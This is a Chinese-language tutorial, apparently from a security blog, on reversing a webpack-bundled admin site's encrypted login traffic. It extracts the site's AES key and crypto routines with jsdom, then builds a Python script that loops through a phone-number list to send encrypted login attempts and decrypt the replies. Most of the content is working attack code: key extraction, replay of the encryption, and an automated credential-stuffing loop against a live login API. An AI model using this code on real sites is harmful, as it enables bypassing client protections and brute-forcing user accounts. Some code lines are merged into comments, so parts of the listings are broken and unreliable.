




## webpack

webpack 是一个**前端资源打包工具**，主要用于将 JavaScript、CSS、图片等各种资源模块化，并进行打包、优化，以提高 Web 应用的性能和开发效率。但是经过打包过后的 js 文件，更加难以阅读。

## 前提条件

需要安装`npm` 和`Node.js` 环境

## 实战

某后台网站



尝试登录，抓包发现请求包和响应包全部加密传输


浏览网站的 js 文件，明显发现 webpack 打包痕迹


### 响应包解密

尝试全局搜索`decrypt(`, `interceptors.response.use`, `JSON.parse(` 等关键字


发现`interceptors.response.use` 出现的最少，就从这里入手
定位到该方法，进行打断点


调试后发现`e.data` 是我们的加密响应体


进一步调试后，发现在`f.default.prototype.$help.crypto.doDecrypt` 方法中进行解密



鼠标放在该方法上，定位到该方法具体位置


在该方法入口处打上断点


调式后发现这是真正解密的方法


接下来便是扣代码的时刻了

**注意**：需要运行 webpack 的 js 文件，首先要找到加载器

随便找一个定义变量调用模块的代码，进行打断点


然后刷新浏览器，在浏览器环境初始化时，会加载该代码，此时进行步入


该`function f(n)` 便是 webpack 的加载器入口


该方法所在的文件，类似于

```js
!function(c) {···}([]);
```

开头的的 js 代码便是该网站 webpack 的加载器
全部复制下来，然后在入口处添加两行代码，便于调式

```js
// 模块之间调用关系
console.log('正在加载模块：：：', n);

// 使用全局变量window 引用该方法，方便其他js 调用
window.f = f;
```


创建`decrypt.js` 文件
首先进行浏览器环境伪造

**注意**：

1. 如果 js 中不检测浏览器环境便不用进行伪造。
2. 如果伪造后运行时任然报错，可以定位到报错的地方查看代码，如果是检测环境的代码，可以直接尝试注释掉，看是否会影响运行。

```js
const { JSDOM } = require("jsdom");

// 伪造 window 和 navigatorconst dom = new JSDOM("", { url: "https://example.com" });
global.window = dom.window;
global.document = dom.window.document;
global.navigator = {
    userAgent: "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36",
    platform: "Win32",
    appName: "Netscape",
};

// 让代码能正常运行
global.HTMLAnchorElement = window.HTMLAnchorElement;
global.XMLHttpRequest = require("xmlhttprequest").XMLHttpRequest;
```

**注意**：`npm` 环境需要下载`jsdom` 模块，命令 `npm install jsdom`



扣下来解密的方法


方法中会有未定义的对象`i,o,c` 等，需要导入加载器，调用入口方法进行定义


**注意**：

- 如何找到`i,o,c` 等对象的调用的什么模块呢？ 1. 在定义方法的位置，向上寻找，一般会有直接定义 2. 打断点进行调试，定位到`i,o,c` 等对象的子方法中，向上寻找，一般会有模块名称

像这里的对象`i`，向上寻找没有对它的定义，但是他会调用`Decrypt` 方法


鼠标放在`Decrypt` 方法上，定位到该方法所在模块，就能找到`i` 对象是什么模块


运行时，可能会发现某模块未发现



则全局搜索 js 文件，查看该模块在哪个 js 文件中，将该 js 文件复制下来进行导入


完整的`decrypt.js` 文件如下：

```js
const { JSDOM } = require("jsdom");

// 伪造 window 和 navigatorconst dom = new JSDOM("", { url: "https://example.com" });
global.window = dom.window;
global.document = dom.window.document;
global.navigator = {
    userAgent: "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36",
    platform: "Win32",
    appName: "Netscape",
};

// 让代码能正常运行
global.HTMLAnchorElement = window.HTMLAnchorElement;
global.XMLHttpRequest = require("xmlhttprequest").XMLHttpRequest;


// 加载 Webpack 生成的 JS
require('./loader');
require('./chunk-libs.1043b112');

var r = window.f;
var i = r("yuw5")
    , o = r("syZn")
    , c = r("Y0Lo");

// 解密函数
function doDecrypt(e) {
    var t = {};
    try {
        "AES" === "aes".toUpperCase() ? t = JSON.parse((0,
        i.Decrypt)(e, "nUzmtiAhOPr7Hquk")) : "SM2" === "aes".toUpperCase() ? t = JSON.parse(o.sm2.doDecrypt(e, "nUzmtiAhOPr7Hquk")) : "RSA" === "aes".toUpperCase() && (c.setPrivateKey({
            type: "aes",
            key: "nUzmtiAhOPr7Hquk",
            requestParamKey: "request"
        }.privateKey || window.crypto.privateKey),
        t = JSON.parse(c.decryptLong(e)))
    } catch (r) {
        t = e
    }
    return t;
}

const encryptedData = '';
// 读取 Python 传递的参数
// const encryptedData = process.argv[2];
const decryptedData = doDecrypt(encryptedData);

// 返回解密结果
console.log(JSON.stringify(decryptedData));
```

### 请求包加密

尝试全局搜索参数字段, `interceptors.request.use`, `send(` 等关键字
发现`interceptors.request.use` 出现的最少，就从这里入手


经调试后发现这就是加密方法，经过处理后生成了`request`, `sign`参数


同样进行扣代码，补浏览器环境，补模块文件，删除掉不用的代码等操作
完整的`encrypt.js` 文件如下：

```js
const { JSDOM } = require("jsdom");

// 伪造 window 和 navigatorconst dom = new JSDOM("", { url: "https://example.com" });
global.window = dom.window;
global.document = dom.window.document;
global.navigator = {
    userAgent: "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36",
    platform: "Win32",
    appName: "Netscape",
};
global.HTMLAnchorElement = window.HTMLAnchorElement;
global.XMLHttpRequest = require("xmlhttprequest").XMLHttpRequest;

// 导入JS文件
require('./loader')
require('./chunk-elementUI.ceaecd00')
require('./chunk-libs.1043b112')
require('./app.f8132b75')

var r = window.f;

var crypto = r("46D+");
var o = r("syZn")
    ,s = r("a8fN")
    ,i = r("t7/f");

// **加密请求**
function request_encrypt(e) {
    var t = e.data || {}
      , r = (0,
    s.default)(t).filter((function(e) {
        return null !== t[e] && void 0 !== t[e]
    }
    )).reduce((function(e, r) {
        return (0,
        o.default)({}, e, (0,
        i.default)({}, r, t[r]))
    }
    ), {})
      , n = {};
    n.request = crypto.doEncrypt(r),
    e.data = n,
    "AES" === "aes".toUpperCase() && (e.data.sign = crypto.doEnRSASgin("nUzmtiAhOPr7Hquk")),
    {}.type && ("SIGN" === {}.type.toUpperCase() ? e.data[{}.requestParamKey] = crypto.doSm2Sign(e.data.request) : "SMD5" === {}.type.toUpperCase() ? e.data[{}.requestParamKey] = crypto.md5(crypto.doSm2Sign(e.data.request)) : "MD5S" === {}.type.toUpperCase() ? e.data[{}.requestParamKey] = crypto.doSm2Sign(crypto.md5(e.data.request)) : "MD5" === {}.type.toUpperCase() && (e.data[{}.requestParamKey] = crypto.md5(e.data.request)))

    return e.data;
}

// **加密数据模板**
var login_passwd = {
    "method": "post",
    "url": "https://xxxx.com/api/xxxx",
    "headers": {
        "Accept": "application/json, text/plain, */*",
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"
    },
    "data": {
        "method": "POST",
        "phone": "13333333333",
        "password": "oBY87+okp5d039CxAPoYuA==",
        "smsKey": "",
        "smsCode": "",
        "type": "0"
    }
};

// **加密并发送请求**
function login_passwd_post(phone) {
    login_passwd.data.phone = phone;
    login_passwd.data.password = password;
    var encryptedData = request_encrypt(login_passwd);

    // URL 编码处理
    var request = encodeURIComponent(encryptedData.request);
    var sign = encodeURIComponent(encryptedData.sign);
    var postData = 'request='+request+'&sign='+sign;

    return postData;
}

// 读取 Python 传递的参数
const phone = "13333333333";
const password = "oBY87+okp5d039CxAPoYuA==";
const encryptedData = login_passwd_post(phone, password);
// 返回加密结果
console.log(encryptedData);
// **手动退出 Node.js 进程**
process.exit(0);
```

`加密数据模板` 其实就是加密方法，需要传入的数据对象`e`，可以直接打断点进行复制对象，删除了一些不需要的属性值


### python 脚本调用

因为 python 想要传入对象给 js 需要调用 http 服务，为了方便，这里采用传参方式进行调用 js 代码

需要在加解密的 js 文件中添加接收参数的代码

`decrypt.js`

```js
// 读取 Python 传递的参数
const encryptedData = process.argv[2];
const decryptedData = doDecrypt(encryptedData);

// 返回解密结果
console.log(JSON.stringify(decryptedData));
```

`encrypt.js`

```js
// 读取 Python 传递的参数
const phone = process.argv[2];
const password = process.argv[3];
const encryptedData = login_passwd_post(phone, password);
// 返回加密结果
console.log(encryptedData);
// **手动退出 Node.js 进程**
process.exit(0);
```

python 代码如下：

```python
import subprocess
import json
import requests

def decrypt_data(encrypted_text):
    """调用 Node.js 运行 JS 并解密数据"""
    try:
        result = subprocess.run(
            ["node", "decrypt.js", encrypted_text],
            capture_output=True,
            text=True,
            encoding="utf-8",
            errors="ignore",
            check=True
        )

        # 检查 stdout 是否为空
        if not result.stdout.strip():
            return {"error": "Node.js 返回空结果"}

        return json.loads(result.stdout)  # 解析 JSON    except json.JSONDecodeError:
        return {"error": "无法解析 JSON，Node.js 输出: " + result.stdout}
    except Exception as e:
        return {"error": str(e)}

def encrypt_data(phone='', password=''):
    """调用 Node.js 运行 JS 并加密数据"""
    try:
        result = subprocess.run(
            ["node", "encrypt.js", phone, password],  # 运行 Node.js 脚本并传递 phone，password 参数
            capture_output=True,
            text=True,
            encoding="utf-8",
            errors="ignore",
            check=True
        )

        # 检查 stdout 是否为空
        if not result.stdout.strip():
            return {"error": "Node.js 返回空结果"}

        return result.stdout.strip()  # 返回加密后的请求数据
    except Exception as e:
        return {"error": str(e)}


def send(data):
    """发送requests 请求"""
    response = requests.post(
        'https://xxxx.com/api/xxxx',
        headers=headers,
        data=data,
    )
    return response.content

def main():
    phone_list = []
    with open('./phone-numble.txt', 'r', encoding='utf-8') as f:
        phone_list = [line.strip() for line in f.readlines() if line.strip()]

    for phone in phone_list:
        print('尝试手机号：', phone)

        encrypted_result = encrypt_data(phone, password='oBY87+okp5d039CxAPoYuA==')
        if isinstance(encrypted_result, dict) and "error" in encrypted_result:
            print("加密错误:", encrypted_result)
            continue

        response = send(encrypted_result)
        decrypted_result = decrypt_data(response)
        print("解密结果:", decrypted_result)
        # time.sleep(0.5)

if __name__ == '__main__':
    main()
```
